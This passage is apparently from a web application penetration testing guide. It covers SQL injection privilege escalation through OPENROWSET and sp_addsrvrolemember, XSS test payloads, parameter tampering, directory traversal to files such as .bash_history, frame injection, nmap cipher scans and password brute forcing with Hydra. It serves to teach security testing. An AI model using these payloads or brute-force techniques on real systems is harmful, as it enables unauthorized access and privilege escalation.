If you successfully Brute force the admin account password, you can use this password to easily escalate privileges with OPENROWSET. You must provide valid credentials to access the database and use OPENROWSET to escalate privileges. 

Try to send an SQL injection query with the Brute-forced admin password, and add your user to
the sysadmin group using the sp_addsrvrolemember, as follows:

sp_addsrvrolemember takes as parameters a user and a group to add the user

```
SELECT * FROM OPENROWSET('SQLOLEDB', 'Network=DBMSSOCN;
Address=;uid=sa;pwd=passw0rd', ‘SELECT 1; EXEC
master.dbo.sp_addsrvrolemember
''appdbuse'',''sysadmin''')
```


In the above query, SQLOLEDB is the OLE database for the MS SQL server, appdbuser is the new user that you try to add to the high privileged user group, sysadmin.

**Note**: Unlike SQL Server 2000, OPENROWSET is disabled on SQL Server 2005 by default. You need to enable it to test privilege-escalation.


## Test for XSS Vulnerabilities

The XSS attacks are one of the most dangerous app attacks that allow hackers to insert malicious script at the browser side. In this section, you will learn the process of testing the target app for XSS vulnerabilities.

### Manual Test for XSS Vulnerabilities

Cross-site scripting (XSS) is a vulnerability in dynamically generated webpages that enable malicious attackers to inject client-side script into webpages viewed by other users. Attackers use these vulnerabilities to compromise account, gather user credentials, modify cookies and perform other session attacks. As a pen tester, you must test for XSS vulnerabilities that can result in compromise of the web application.

You can use tools such as Burp Suite to test the web application for XSS vulnerabilities.


The following sections discuss about various methods to test the target for XSS vulnerabilities.

- **Testing URLs for XSS**
  You can manipulate certain parts of a URL by embedding an XSS payload in it. For
  example, take the following request in the browser address URL bar:

  ```
  www.example.com/? Parameter Name= =[ Insert XSS Payload here]
  ```

  For example, you can add a XSS script in a URL in the following format:

  ```
  www.example.com/?pageid=10&élang Parameter Name=
  =</h1><script>alert (‘XSS%20attack’ )</script>
  ```

  

- **Testing Search Field for XSS**
  You must check if the search field of a website or a web application is vulnerable to the XSS attacks by inserting a malicious code or payload in search field.

  For example, open the web application and enter the following command in the search box:

  ```
  <script>alert ("Hello World") </script>
  ```

  If the search responds to the payload, then this tells us that the website is vulnerable to XSS attack!

  

- **Testing user-agent header for XSS**
  You must also validate if the user agent field of the header is vulnerable to XSS. To check this, insert a XSS payload in the user-agent header field as shown in the image and submit the header.
  For example, enter the following command in the user-agent field:

  ```
  /><script>alert(‘message')</script><!—
  ```

  If the result displays the alert message, the website is vulnerable to XSS attack.

- **Testing application for XSS by evading filters**
    Sometimes, application may block the attempt of XSS penetration test by using different   filters. In such case, penetration tester should try to evade filter by disguising XSS   JavaScript. Use different encoding techniques to disguise XSS JavaScript.

- **Try to gain unauthorized access or sensitive information through XSS**

### Automated Test for XSS Vulnerabilities
- Use xsser to detect XSS vulnerabilities on the target website

#### XSSer

Source: https://xsser.03c8.net

XSSer is an open source penetration testing tool that automates framework to detect, exploit, and report XSS vulnerabilities in web-based applications.


## Test for Parameter Tampering

Attackers try to gain unauthorized access to the web application by manipulating different input and URL parameters that the browser exchanges with the server. This attack will alter the user credentials, permissions, etc. This section will explain the different types of tampering you can perform, such as cookies, hidden form fields, or URL Query Strings, etc., and the tests you must conduct to find if the web application is vulnerable to these attacks.

### Test for URL Parameter Tampering
- A web parameter tampering attack involves the manipulation of parameters exchanged between client and server in order to modify application data, such as user credentials and permissions, price, and quantity of products
- A parameter tampering attack exploits vulnerabilities in integrity and logic validation mechanisms that may result in XSS, SQL injection, etc.
- Test by modifying the URL parameters of the website, adding different values and manipulating at different parts
  - Try to manually modify a URL in order to gain access to a host web server
  - Send scripts to the URL to reveal information and find hidden files on the host server
  - Try to request common file extensions, such as .ASP, .HTM, .PHP, and .EXE, and watch for any unusual output or error codes

Example: 

- Try to manipulate the URL strings to retrieve sensitive information:
  - By visiting www.xsecurity.com/bank_acct001.pdf, you can retrieve a report on your bank account activities

- What happensif you replace bank _acct001.pdf with bank_acct002.pdf? Will you be able to get a report for another savings account for which you do not have authorization?

A web parameter tampering attack involves the manipulation of input parameters that a user can enter through the URL in the web application in order to modify application data, such as user credentials and permissions, price, and quantity of products. A parameter tampering attack exploits vulnerabilities in integrity and logic validation mechanisms that may result in XSS, SQL injection, file inclusion and path disclosure attacks.

As a penetration tester, you must test if the target web application is susceptible to URL manipulation attacks. Test by modifying the URL parameters of the website, adding different values and manipulating at different parts:

- Try to manually modify a URL in order to gain access to a host web server
- Send scripts to the URL to reveal information and find hidden files on the host server
- Try to request common file extensions, such as .ASP, .HTM, .PHP, and .EXE, and watch for any unusual output or error codes

For example, consider the following URL by which you can retrieve a report on your bank account activities.

**www.xsecurity.com/bank_acct001.pdf**

Now, test for parameter tampering by replacing the bank_acct001.pdf with bank_acct002.pdf. If you can retrieve the report of another savings account that is not accessible, that web application is vulnerable.

When a web application uses hidden fields to store status information, as a tester, try to tamperwith the values stored on the browser and change the referred information. For example, an e-commerce shopping site uses hidden fields to refer to its items, as follows:

**<input type="hidden” id="1008” name="cost” value="70.00">**

In this example, an attacker can modify the “value” information of a specific item, thus lowering its cost,

Example:

Attackers try to gain unauthorized access to the web servers and unauthorized web pages of an application by manipulating certain parts of URL. As a penetration tester, you must check if the target web application is exploitable using the URL manipulation attacks by trying different test cases.

Modify the URL parameters of the website by changing the values. For example, consider the following URL:

**http://example/forum/?cat=2**

You can modify the parameters to different values as follows:

**http://example/forum/?cat=6**

You can also try an unexpected case as follows:

**http: //example/forum/?cat=****************

If the designer has not anticipated these cases, then you can gain access to protected area of the web application.

You must perform directory traversal or path traversal attack to manipulate the URL of the host website. For example,

http://target/base/test/ascii.php3
http://target/base/test/
http://target/base/

Test by using different strings or characters, such as “.../” in the URL in order to access unauthorized parts of a site.

http://target/../../../../directory/file

Send scripts to the URL to reveal information and find hidden files on the host server. Test for hidden files in the remote system:

http://target/.bash_history
http://target/.htaccess

Test if the application reveals directories and file extensions that comprise critical information by using the following examples:

http://target/admin/

http://target/admin.cgi

Test to get access for backup copies:
http://target/.bak

### Test for Hidden Field Parameter Tampering
- Hidden fields carry sensitive data that, when exploited, can distress the web applications, for example: pricing information

- Try to view the source, change the price of an item, and then save the HTML on the client-side to see if the server will use that value to calculate the total
- Test by manipulating input parameters to exploit the logical flow of web applications
- Send non-malicious queries to manipulate input variables that are processed in the database server

Web applications use hidden fields, which transfer state information between browser and server as well as obtain inputs from clients. Hidden fields carry sensitive data that, when exploited, can distress the web applications, for example: pricing information. Developers hide these fields with a hidden tag to prevent it from field manipulation attacks, as they comprise sensitive data. They represent hidden fields as <input type="hidden">.

As a tester, you must test if the common attack methods used to view hidden fields in web applications work with the target web application. Try to view the HTML source code, change the price of an item, and then save the HTML on the client-side to see if the server will use that value to calculate the total. If the web application processes the request, then it is vulnerable to the attack.

You can also test by manipulating input parameters to exploit the logical flow of web applications. Send non-malicious queries to manipulate input variables processed in the database server, if the web application responds with results, then they it is vulnerable to the attack. 


### Test for Unrestricted File Upload Vulnerability
- Try to upload files against expected extension, size, etc.
- Test whether the validation on approved file types or size done on client side
- Test whether validation is done only through "Content-Type" in HTTP request
- Test whether the files being uploaded are virus-checked before uploading
- Test whether proper authorization is required for file upload

The web applications allow users to upload files and store them on their databases. While attacking a web application, the attackers try to execute a code over the targeted application by uploading a file into it. Web applications can prevent such attacks if the developers restrict the file uploads based on the file extensions.

As a penetration tester, you must test if the web application supports unrestricted file upload by trying to upload files with extensions like ‘jsp’, ‘.gif’, etc., and check the response from the web server. Test whether the validation on approved file types or size are done on client side. If the web application fails to validate these file extensions, then the web application is vulnerable to this attack. You must check if the target application allows upload of oversize files, files embedded with virus, etc.


Also check if the application validates the uploaded file through Content-Type in HTTP request and if it requires whether proper authorization for File upload.

### Perform HTTP Response Splitting/CRLF Injection Attack

- Add header response data into the input field so that the server splits the response into two responses

Carriage Return and Line Feed (CRLF) characters in a HTTP header indicate the end of the line. The web applications utilize these values in headers to reply to the user. In the CRLF injection attack, the attackers split the HTTP responses and inserts customized CRLF characters into the headers to generate custom response from the target web application.

As penetration testers, you must check if the web applications are vulnerable to these types of attacks. To test the web application, you must add header response data into the input field so that the server will split the response into two parts.


### Test for Weak Cryptography Vulnerabilities

Web applications can become easy targets when they have weak cryptography algorithms implemented across transport layers, storage, encoding, etc. Penetration testers must be able to assess if the web apps have weak cryptography vulnerabilities. This section will help you to learn the process of testing the web applications for weak encryption algorithms using different techniques.

### Check for Insufficient Transport Layer Protection
- Insufficient transport layer protection supports weak algorithms, uses expired or invalid certificates
- This vulnerability exposes user data to untrusted third parties and can lead to account theft
- Check for underprivileged SSL setup to launch phishing and MITM attacks

Insufficient Transport Layer Protection reveals sensitive information, such as user credentials, personal information, financial details, etc., during transmission. This will allow the attackers to steal confidential information and compromise the web application. Therefore, the websites use SSL/TLS to encrypt data on the transport layer. Insufficient transport layer protection uses weak algorithms and expired or invalid certificates to secure the data resulting in numerous vulnerabilities. These vulnerabilities expose user data to untrusted third parties and can lead to account theft.

You must check if the configuration of SSL/TLS in the web application is proper as weak security can result in traffic interception and modification. Check for underprivileged SSL setup by launching phishing and MITM attacks on the transport layer.

### Check for Weak SSL Ciphers
- Use tools, such as Nmap or THCSSLCheck, to find SSL services and a list of ciphers and protocols supported by the host SSL service
- Use scanner tools, such as Nmap and Nessus, to find arbitrary ports and weak SSL ciphers in a host server/application
- Try to perform an attack to exploit SSL communication of the host application
- Try to perform SSL scans and SSL tests to find common flaws in SSL service

Identify the weak SSL ciphers by finding the SSL services and a list of ciphers running on the target web server using tools such as Nmap and THCSSLCheck. Then use scanner tools, such as Nmap and Nessus, to find arbitrary ports and weak SSL ciphers in a host server/application. Perform SSL scans and SSL tests to find common flaws in SSL service and use them to exploit SSL communication of the host application.

Use the Nmap tool to identify the SSL services related to a website or web application using the following command.:

```
nmap -F -sV <Website URL>
```


Then, find the list of ciphers related to the target web servers using the Nmap tool with the following command:

```
nmap --script ssl-cert, ssl-enum-ciphers -p 443 <Website URL>
```


### Detect Use of Weak Encoding Techniques
- Programmers use URL encoding techniques to disguise parameters passingthrough query string 

- However, the parameters in the query string are generally encoded using base64 encoding techniques; such encoding is not sufficient and is still vulnerable to attacks

- Attacker can easily decode such type of encoding

- Try to decode the encoded parameter passed through URLs

Programmers use URL encoding techniques to disguise parameters passing through query string to and from the web applications. Web applications need a uniform URL encoding to provide worldwide interoperability.

However, the web applications encode the parameters in the query string using base64 encoding techniques. Such encoding is not sufficient and is still vulnerable to attacks. An Attacker can easily decode such type of encoding. Therefore, web applications use different encoding techniques; for example, converting the non-ASCII characters of an URL into hexadecimal value, prefixed by a % symbol.

Asa penetration tester, you must test if the web applications are using weak encoding techniques and are vulnerable to the attacks.

Example of a weak encoding technique is:

https://www.example.com/checkout?id=%75%73%65%72%3D%6A%61%73%6F%6E%3B%61%70%70%3D%61%64%6D%69%6E%3B%64%61%74%65%3D%%32%%33%2F%31%31%2F%32%30%31%30

With hex-encoding of an ASCII string user=jason;app=admin;date=23/06/2013, the attacker can predict another session token by just changing the date and use it for another transaction with the server.


## Tests for Security Misconfiguration Vulnerabilities

Misconfiguration of components of a web application can result in various vulnerabilities that attackers can exploit to perform attacks. In this section, you will learn about various misconfiguration vulnerabilities in web applications and process of testing the apps for these. 

### Test the Inner Workings of a Web Application
- JavaScript and other client-side code can also provide many cluesto the inner workings of a web application

The web application may contain coding flaws that can reveal sensitive information to the attackers. Attackers use processes such as reverse engineering of the web application to find coding flaws and exploiting them to compromise the web application.

JavaScript and other client-side code can also provide many clues to the inner workings of a web
application. As a penetration tester, you must have knowledge about the computer programming
to understand the inner working of a web applications and you must examine their source code
to identify any coding or security flaws.

For example, the following script suggests that the application is trying to protect the form handler from quantity values of 255 or more, the maximum value of a tinyint field in most database systems:



The attackers can bypass the client-side validation of this code by inserting long value into the ‘quantity’ GET/POST variable.

### Test the Database Connectivity
1. Applications may require to **access the database servers**

2. Access rights should be **limited to the minimum rights** required

3. Access rights should be **limited to the duration** for which access is necessary

4. Check for a target application “**administrator**” (unrestricted) access rights

5. Check for any **security vulnerabilities** that target insecure connections between database and web applications

6. Test by manipulating **user input variables**, especially semicolon-surrounded database connection strings in web applications
7. Check for **vulnerable connection strings** that are not filtered and properly validated databases

Web applications require access to various servers, such as database servers, to provide services. The penetration testers must check if the database connectivity of the web application for ease in offering services. Test if the web servers provide limited rights to the users to access web application data based on the privileges.

Check if the web application provides access right permissions for limited time, as failing to do so can provide ample time to the attackers to perform various attacks. Check for a target application “administrator” (unrestricted) access rights. You need to check the connectivity between the web application and the database to check for insecure communication vulnerabilities. You need to
check the input validation mechanism of the web applications by manipulating the input variables. If the web application accepts and parses the fake input variables that you have provided, then the web application is vulnerable to security attacks such as SQL injection, XSS, etc. Test by manipulating user input variables, especially semicolon-surrounded database connection strings in web applications.

The connection strings help in establishing connections between the web applications and databases. As an attacker might try to establish a connection using a connection string, the databases should validate the connection strings before establishing a connection with a web application. As a web application tester, you need to check whether the database is filtering the unauthorized attempts to access and restricting the vulnerable connection strings.

### Test the Application Code
**Test for Backdoors**

- Backdoors may be created by developers to faciltate debugging and troubleshooting
- Test for exception handling and failure notification
- Test for login IDs and passwords
- Check for the misuse of superuser accounts
- Look for IDs and passwords “in the clear” when connecting to and accessing servers, directories, databases, and other resources
- Test for comments in the HTML code that might reveal the user's ID and password information, code paths, or directory and executable file names
- Test for error messages that reveal the server's name, root directory name, or other pertinent information about the server

**Test for Backdoors**

Developers build backdoors into web application to facilitate debugging and troubleshooting. Attackers can use such backdoors to gain unauthorized access to the application. The developers or testers can sometimes forget to disable the debugging option and remove the backdoors before deploying the web application into the Internet. Check the web application for any open backdoors.

Web applications must be able to handle exceptions and display failure notifications when errors occur during program execution. These error messages can provide information such as server names and root directories. You must check if the web applications are able to handle these exceptions and displaying error messages without revealing any sensitive details such as server's name, root directory name, or other pertinent information about the server to the user.

You should check the comments in HTML code for hard-coded sign in IDs and passwords. These comments may also contain code paths, directory file names, or other file names. The hard-coded credentials allow an attacker to access the web application by bypassing the authentication configured by the administrator. Check if the web application stores any user credentials in the clear when connecting to and accessing servers, directories, databases, and other resources. 

Superuser accounts have highly escalated privileges and can create new accounts, delete or block the existing accounts, assign privileges to the users, etc. You must check if the web application can reveal the details or credentials of these accounts or provide means to the attackers to compromise these accounts. Test for comments in the HTML code that might reveal the user’s ID and password information, code paths or directory, and executable file names.

Testers should check for random numbers and unique numbers in the application code. Sometimes, developers use random numbers instead of unique numbers. It is necessary to check for random numbers and unique numbers in the application code, because attackers can predict the sequence of random numbers and use that knowledge to induce a software failure.

### Test whether the Target Website is Protected using Web Application Firewall (WAF)
- Use the wafw00f tool to the detect WAF in front of target website

  Syntax:

  ````
  Wafw0Of [target website]
  ````

  

You can use a tool called wafwOOf for fingerprinting and testing the web application firewall. You must check the performance of the WAF to know whether it is protecting the web application from security attacks.


### Test for Debug Parameters
- Check for hidden debug parameters (debug=true) in application pages, such as login, file download/
  upload, search, etc.
- Test for anomalies in the application’s responses with parameters that disrupt application processing
- Check whether you can send non-malicious scripts to overwrite or manipulate code and debug pases

The developers enable the debug option for web applications for the ease of testing its functionality. If they do not disable this option, attackers can use it to gain additional information about the web application and do not allow input validation.

As penetration testers, you must check if the web application has this option enabled in the public access version. You can do this by checking for hidden debug parameters, such as &debug=true, &debug=on or &debug=1 in application pages including sign in, file download/upload, and search pages.

Developers can also use complex parameter values, such as 9521478, 45875221, etc., to hide the debug parameters efficiently. In such cases, check the source code of the web application to test the debug parameters. Test for anomalies in the application’s responses with parameters that disrupt application processing. Check whether you can send non-malicious scripts to overwrite or manipulate code and debug parameters.

### Test for Improper Error Handling
- Improper error handling gives insight into source code, such as logic flaws, default accounts, etc.

- Using the information received from an error message, an attacker identifies vulnerabilities for launching various web application attacks

- Information gathered about application condition, such as out of memory, null pointer exceptions, system call failure, database unavailable, network timeout, database information, web application
  logical flow, and application environment

Web applications display error messages on encountering any input or logical errors. If these applications are not able to handle the errors properly, the error messages can reveal critical information about internal resources, such as error codes, database dumps, etc., and provide users with insight into source code, such as logic flaws, default accounts, etc.

Attackers gather information such as of memory, null pointer exceptions, system call failure, database unavailable, network timeout, database information, web application logical flow, and application environment, and use it to attack the web applications.


As penetration tester, you must test the process of handling errors in a web application and type of information it reveals while handling the errors. Provide fake login credentials, request unavailable resource and try other invalid actions to check how the application responds to them and the type of information displayed in the error messages. If the web application provides sensitive details, then it is unable to handle the errors properly.

## Test for Client-Side Attack

Web applications rely on exchange of information between the client and server. Therefore, any vulnerability in the implementation of client-side technologies can help the attackers to compromise the web application as well. This section will help you to test the client-side vulnerabilities that can impact the web application.

### Identify the Technology used at Client-side

- Identify the technologies used on the client's side, such as HTMLS, JavaScript, AJAX, Java applets, Flash
  objects, ActiveX controls, etc.
- Inspect source code to identify the technologies used at client side
- Use the banner grabbing tool, such as Httprint, to identify technologies from HTTP, HTTPS request headers, etc.

As a penetration tester you must Identify the various technologies used on the client’s side, such as HTMLS, JavaScript, AJAX, Java applets, JSON, cookies, Flash objects, ActiveX controls, etc. Inspect source code to identify the technologies used at client side. You must check for extensions in URLs, cookies, HTTP headers, etc., to identify the technologies used for creating, implementing and securing the browsers and operating systems on the client side. You can use tools, such as Netcraft and W3Techs, to find the web application client-side technologies. Use the banner grabbing tool such as httprint to identify technologies from HTTP, HTTPS request headers, etc.

### Test the Application’s Reliance on Client-Side Validation
- In modern web applications, most of the input validation checks are performed at client side to avoid bandwidth consumption and extra processing. Client-side validation checks are executed by the browser and are under control of user at the client side
- Thus, a user can easily tamper or stop the execution of input validation logic implemented at the client side
- The application should not rely solely on client-side validation
- Test whether the application relies only on client-side validation to protect from bad data

In modern web applications, most of the input validation checks are performed at client side to avoid bandwidth consumption and extra processing. The browser executes the client-side validation checks that are under control of the user at the client side. 

Thus, a user can easily tamper or stop the execution of input validation logic implemented at the client side. Check if the application relies solely on client-side validation for securing the web application. As a penetration tester, you must test if the application relies only on client-side validation to protect the web application from bad data.

### Test Client-side Controls over User Input
- Check what type of client-side controls are used by applications and try to send arbitrary requests 
  to the server
- Check for any exploitable inputs in the validation of client-side controls
- Test each input field by sending different user inputs that are managed by client-side controls and check the target server response

Find if the web application uses length limits and JavaScript to validate the user input value prior to sending it to the server. Users can bypass these to send arbitrary requests.

Check for any exploitable inputs in the validation of client-side controls. You must test each affected input field by submitting an input that client-side security solutions must normally block to check if the web application replicates them on the server. Check the type of validation the client-side technologies perform to verify the input and check if the users can exploit these conditions to compromise the firewall.

Scan each HTML form for finding any disabled element, such as grayed-out submit buttons. Submit these elements to the server along with the other parameters to check if these impact the processing capacity of the server. If these have any impact, attackers can use these disabled elements to perform attacks.

### Test Transmission of Data via Client
- Identify areas where cookies, URL parameters, and hidden form fields are used to transmit data on the client side
- Identify the importance of and application’s logic used for the input fields to transmit data via the client
- Check for areas where these fields are exploited or can be used to send arbitrary scripts
- Check whether client applications transmit opaque data and try to send arbitrary data in these fields
- Example: client applications based on ASP.NET view state can be tested to find sensitive data and vulnerabilities

Sometimes web applications should transmit data via the client that can be modifiable and can result in one or more attacks. Transmission of data via the client usually takes place using hidden form fields, cookies, and URL parameters.

Asa pen tester, you must try to locate the section of the application that uses hidden form fields, such as cookies and URL parameters, to transmit data. Based on the context, including name and value, try to find role of the item in the application’s logic behind the input fields.

Try to send the arbitrary scripts in the fields to check whether the application processes these inputs. Check if the application transmits opaque data via the client because opaque data is prone to attack in many ways. Try to find if the web application obfuscates the item, if you can decode the obfuscation algorithm, and send arbitrary input to the opaque item.

Test the ASP.NET view state in the application to confirm that it does not contain any sensitive information. Use Viewstate analyzer in Burp Suite to check if the web application is EnableViewStateMac-enabled. This implies that the users cannot modify the contents in Viewstate.

### Test ActiveX Controls
- Identify HTML parameters for the ActiveX controls and try to exploit the parameters with arbitrary inputs

- Use tools, such as COMRaider, to look for vulnerable ActiveX controls and overwrite arbitrary inputs on the client side

- Use tools, such as Process Monitor, to gather information about client controls and exploit the inputs

- Use tools, such as **COMRaider** and **Oleview.exe**, to find methods executed by the control and test validation process with the server

ActiveX is the technology behind streaming videos, playing music, and offering browser-based games on web applications. ActiveX controls support tasks, such as displaying animation, gathering information, and viewing specific files. Even though Activex is safe, attackers can find loopholes such as gathering Internet activity from outdated Activex plug-in.

As a penetration tester, you must try to identify HTML parameters for the ActiveX controls and try to exploit the parameters with arbitrary inputs. Search for .cab files or look for object tags in the HTML source code of application pages.

For example:

```
<OBJECT
classid="CLSID : 4F878398-E58A-11D3-BEE9-00CO4FAOD6BA”
codebase="https://wahh app.com/scripts/input.cab”
id="TheAxControl”>
</OBJECT>
```

Based on the names and the parameters passed, try to guess the purpose of different ActiveX control methods. Use tools, such as COMRaider and Oleview.exe, to enumerate the methods executed by the control and test validation process with the server, look for vulnerable ActiveX controls, and overwrite arbitrary inputs on the client side. 

Use tools such as Process Monitor, Filemon, and Regmon to gather information about client controls and exploit the inputs.

### Test Shockwave Flash Objects
- Identify the **Flash object functions** employed by the browser and use a proxy to monitor the
  processing and controls with the server
- Use **SWF decompiler tools**, such as Flasm and Flare, to decompile SWF bytecode
- Check whether data transmitted to the server can be exploited and modified using **decompiler tools**

Explore the functionality of the flash object in an application by using a proxy to monitor any requests made to the server and identify the actions that execute at client side and at server side. 

You must determine if the data transmitted from web application to the server is transparent, obfuscated or encrypted in some way. This assures that the safe transmission is taking place.

Use SWF decompiler tools such as Flasm or Flare to disassemble the data into human readable bytecode or decompile into ActionScript source code or SWF bytecode. Check whether data transmitted to the server is exploitable or modifiable using decompiling tools by adding external scripts to it, reengineer the Flash objects, and check if it can bypass the security controls.

### Check for Frame Injection

1. Check whether host applications support editing of frames and frameset tags in HTML pages
2. Try to send non-malicious scripts that overwrite the frame content or tamper with the URL parameters of the vulnerable host site
3. Check for frameset code on the HTML page and try to exploit the code by overwriting the content
4. Try to create a forged site or third-party page that controls or manipulates the contents of the host site

Frame injection attack involves injecting the frames in scripts, where an application does not validate the input. This attack is common on web applications and browsers that support editing of frames. If a single HTML page uses frameset tag to create several frames, then it is vulnerable, even though the source of the frame is from another website.

As a pen tester, you must check if the target applications support editing of frames and frameset tags in HTML pages. Check for frameset code on the HTML page and try to exploit the code by overwriting the content. If application uses frames, then review the HTML source of the browser.

Check for the <frame>tags with a name attribute, which if found, the application is vulnerable to frame injection. Try to access the application from different browsers and reloading the page. If the frame name changes for every reload, then the application is probably not vulnerable. 

Try to send non-malicious scripts that overwrite the frame content or tamper with the URL parameters of the vulnerable host site. Create a forged or dummy site and try to control or manipulate the contents of the host site.

For example, you can add the frame “http://frameinjection.com/login.php” to the URL of a web application and submit it to check if the web application is vulnerable to the attack. 

```
https://www.example.com/index.php?**targeturl**=http://frameinjection.com/login.php
```

### Test with User Protection via Browser Settings
- Browser settings can limit exposure to harmful Internet content

- How would the setting of the type of the content affect your application?

  For example, if cookies handling is disabled, does your application still work?

Browsers can use strong security settings to ensure user protection by limiting their exposure to harmful Internet content. These can use settings that can block use of pop-ups, stop programs and downloads running in the background, etc.

As a penetration tester you must check if the browser provides a secure environment to run the web applications. Try all the possible combinations of browser settings and make sure that these do not impact security of the target application.

For example, security settings on Internet Explorer are as follows:

- **High**: Restricts the potentially damaging active content.

- **Medium**: Warns before running potentially damaging active content.

- **Low**: No warning before running potentially damaging active content.

Try to disable cookie handling and check how the target application works.


## Tests for Broken Authentication and Authorization Vulnerabilities
Authentication and authorization mechanisms provide security to the web applications by providing access to authorized users through accounts. If implementation of these features is not proper, then the attackers can use them to perform attacks. In this section, you will learn about various tests you need to conduct to find the vulnerabilities in the authentication and authorization mechanisms.

### Understand the Authentication and Authorization Mechanism
- Check for common authentication mechanisms implemented in the host environment, such as certificates, smart cards, biometrics, etc.
- Identify the key areas where the authentication process is executed

Penetration testers must have the knowledge of different authentication mechanisms used in the target web application. Some of the commonly used authentication mechanisms include form authentication, certificate authentication, smart cards, and biometrics.

You must identify the authentication mechanisms deployed in the target web application. Find the key areas in website where the web application executes authentication process. Check if the application implements an automated self-registration mechanism and find if it uses any other authentication technologies for different user accounts.


### Test Password Quality
- Check whether password quality rules are implemented and executed on the host environment
- Use various password validation techniques to find and understand the validation methods

Attackers use various passwords’ guessing and breaking techniques to exploit the vulnerable user account passwords and compromise the web applications. Therefore, the developers must develop and implement strong password policy across all the areas of web applications.

Asa penetration tester, you must verify if the target web application has a strong password policy and is implementing it. You need to validate the quality of the passwords using the password validation techniques. Check for the documentation of the web application that provides information about the password quality rules and check if the user accounts have secure passwords.

Check if the web application employs strong and accurate password validation techniques to understand the password validation methods. You can do this by trying to create a user with weak and guessable passwords into the required section.

### Test for Username Enumeration
- If the login error states which part of the username and password is not correct, guess the users of the application using the trial-and-error method
- Some applications automatically generate account usernames based on a sequence (such as user01, user102 , etc.), and attackers can determine the sequence and ‘enumerate valid usernames

The username enumeration is the process of identifying different usernames, which users had assigned to access the web application. The attackers need to find the usernames to compromise user accounts by performing password attack techniques.

Web application with improper error handling can reveal the user names, when a user enters a wrong username in the section by notifying that the username is not correct. This helps the attackers to guess the usernames of the application using the trial-and-error method. Some web applications can automatically generate the usernames based on a sequence provided by the developers, such as user101, user102 etc. In such cases, attackers can guess the usernames by observing the sequence.

As a penetration tester, you must try to find if the application allows user enumeration by manually entering some usernames and observing the error messages. To do this, locate all possible areas in a web application where you can enter the username and enter fake usernames and passwords, and check the error messages.

The following figures show the error messages displayed on a vulnerable web application.


**Note**: Username enumeration from verbose error messages fail if the application implements an account lockout policy (i.e., it locks the account after a certain number of failed sign in attempts).

### Test Resilience to Password Guessing
- Attackers create a list of possible passwords using the most ‘commonly used passwords, target footprinting, and social engineeringtechniques, and try each password until the correct password is discovered
- Attackers can create a dictionary of all possible passwords using tools, such as Dictionary Maker, to perform dictionary attacks 
- Try to perform password guessing manually or using automated tools, such as Brutus, THC-Hydra, etc.

Attackers create a list of possible passwords by finding the most commonly used passwords through target footprinting and social engineering techniques and try each password until they discover correct password. Attackers can create a dictionary of all possible passwords using tools, such as Dictionary Maker, to perform dictionary attacks.

Web applications have in-built security mechanisms to avert password guessing attacks, such as Brute force, Dictionary and Rainbow table attacks. You must try different passwords to check if the web application is able to avert the password guessing attacks. You can perform password guessing manually or using automated tools, such as Brutus, THC Hydra, etc.

#### THC Hydra

Source: https://github.com

Hydra is a Brute force tool that can perform dictionary attacks against more than 50 protocols, including telnet, ftp, http, https, smb, several databases, and many more. 

You may use the THC Hydra tool to perform Brute force attack on the SA account of the MS SQL database.


You must test if the web application has proper protection from the mentioned attacks. Check the number of times a web application allows the users to enter wrong password and the response it exhibits after the user exceeds the attempts.

You need to check if the web application has any lockout functionality, duration of lockout and mechanisms for preventing lockout. Check if the web application offers two factor or multiple password methods to secure the authentication process.

Web applications sometime store the earlier used passwords for ease in verification. You must check the location of saved passwords and if the web application encrypts the passwords before saving them.

### Perform Password Brute-forcing
- In brute-forcing attacks, attackers crack the log-in passwords by trying all possible values from a set of alphabetic, numeric, and special characters
- Use password cracking tools, such as Burp Suite's Intruder, Brutus, etc., to perform password brute force attempt

Attackers use brute force attacks to guess the user credentials, including usernames and passwords. In brute-forcing attacks, attackers crack the log-in passwords by trying all possible values from a set of alphabetic, numeric, and special characters. The applications must have mechanisms to avert these attacks by limiting the number of attempts made to sign in using wrong credentials.

As a security tester, you must check if the web application is vulnerable to Brute force attacks to find account details such as usernames and passwords. Perform Brute force attacks using tools, such as Burp Suite’s Intruder, Brutus, etc. that contain millions of password combinations. 


### Perform Authorization Attack
- Attackers manipulate HTTP requests to subvert the application authorization schemes by modifying input fields that relate to the user ID, username, access group, cost, file names, file identifiers, etc.

- Attackers first access the web application using a low-privileged account and then escalate privileges to access protected resources

The attackers manipulate HTTP requests to subvert the application authorization schemes by modifying input fields which relate to the user ID, username, access group, cost, file names, file identifiers, etc. Attackers first access the web application using a low-privileged account and then escalate privileges to access protected resources.

As a security tester, you must find if the target web application is vulnerable to these attacks by attempting an authorization attack through input field manipulation.

The following are the possible input fields in a web application:

- HTTP headers
- Cookies
- URL
- Hidden tags
- Query string
- POST data


### Understand the Access Control Requirements
A web application provides different access controls to different users, based on their functionalities. Access controls refer to the ability of a user to access resources of the web application. Based on the method employed to differentiate access control, there are two types of access controls segregations:

- **Horizontal segregation**: This access control segregation mechanism separates rights of users positioned on the same level but have different functionalities.

- **Vertical segregation**: This access control segregation mechanism separates rights of users positioned on the different levels.

As a web security tester, understand the access control requirements in the web applications and   check if their implementation is accurate. Check the core functionality of the web application to   understand its access control mechanism implemented among different users of all levels. You   must identify the key areas where you could compromise the accessibility of different users through privilege escalation.

### Test with Multiple Accounts
- Check two different accounts at the same privilege level; attempt to use one account to access data belonging to the other account
- Test a powerful account to locate the functionality that can access all levels of users having access to different types of functionality
- Test every step of multistage functions to confirm that access controls are properly implemented at each stage

Web applications contain accounts for different users, each having different privileges based on their position and functionality. If attackers gain access to one of these accounts with less number of privileges, they try to escalate the account privileges to gain control of additional functions of a web application.

As a penetration tester, you must check whether the accounts in target web application allow users to escalate privileges and determine the process required. Test whether an account with least privileges could access the functions performed using a highest privileged account. 

To conduct this test, you need to have access to admin and users accounts of a web application. Access the accounts one by one and note all their privileges and access rights separately. Test if there is any correlation between these functions and data access that can allow users to escalate privileges. Test every step of multistage functions to confirm that access controls are properly implemented at each stage.

You need to test whether you could access the resources of another account using unauthorized user’s session token. You can use the site map feature of the Burp Suite tool to perform this test.

### Test with Limited Access
- Test whether access controls are effective using only a single account; you need to guess or discover the identifiers associated with other users’ data
- Test for broken access controls to access multiple accounts, names of the URLs, identifiers, and parameter that are needed to exploit the weaknesses
- Check the application mapping that uses a low-privileged account and identifies the URLs for privileged
  functions, such as administrative interfaces

Attackers initially hack a basic account in the web application and try to identify options that they can leverage to increase account privileges to administrator level access and completely compromise the web application.

